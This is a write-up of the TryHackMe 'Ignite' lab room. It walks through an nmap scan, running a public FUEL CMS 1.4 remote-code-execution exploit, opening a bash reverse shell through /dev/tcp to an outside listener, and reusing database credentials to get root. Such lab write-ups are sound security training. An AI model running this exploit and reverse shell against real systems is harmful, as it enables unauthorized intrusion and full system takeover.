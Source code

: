 ```yaml
---
title: Ignite-writeup-THM
date: 2024-01-10
categories: [room, easy]
tags: [linux]    # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1546182208-1e70985e2bf3?q=80&w=2592&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/ignite">Ignite</a>"
I am going to start with a nmap scna:

```bash
nmap -sC -sV 10.10.10.167                                                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 11:40 EST
Nmap scan report for 10.10.10.167
Host is up (0.057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.67 seconds
```

We see that it has a web page running on “FUEL CMS”

![Untitled](https://raw.githubusercontent.com/Blueaulo/Ignite-writeup-THM/main/8a3dca11-ee82-426e-a7dc-155184a6b3cf_Export-dee501f9-607d-4822-af96-36e7c2ca8801/Ignite%2088fddc3b17754ab58e830bf5d61a5987/Untitled.png)

We see that it’s running version 1.4 which is vulnerable.

From the nmap scan we also know that it has the robots.txt and fuel directories:

```bash
User-agent: *
Disallow: /fuel/
```

![Untitled](https://raw.githubusercontent.com/Blueaulo/Ignite-writeup-THM/main/8a3dca11-ee82-426e-a7dc-155184a6b3cf_Export-dee501f9-607d-4822-af96-36e7c2ca8801/Ignite%2088fddc3b17754ab58e830bf5d61a5987/Untitled%201.png)

Now I am going to use an exploit that works with fuel cms 1.4:

https://www.exploit-db.com/exploits/50477:

```bash
python3 50477.py -u http://10.10.10.167/     
[+]Connecting...
Enter Command $whoami
systemwww-data
```

Ok now I am going to start a proper reverse shell.

`bash -i >& /dev/tcp/10.11.65.91/4444 0>&1`

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.113.174] 34452
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

From there I just searched the web directory, and found the config folder.

In there there was a file named database.php, which contains the root credentials

```bash
su root
Password: 

root@ubuntu:/var/www/html/fuel/application/config# whoami
root
```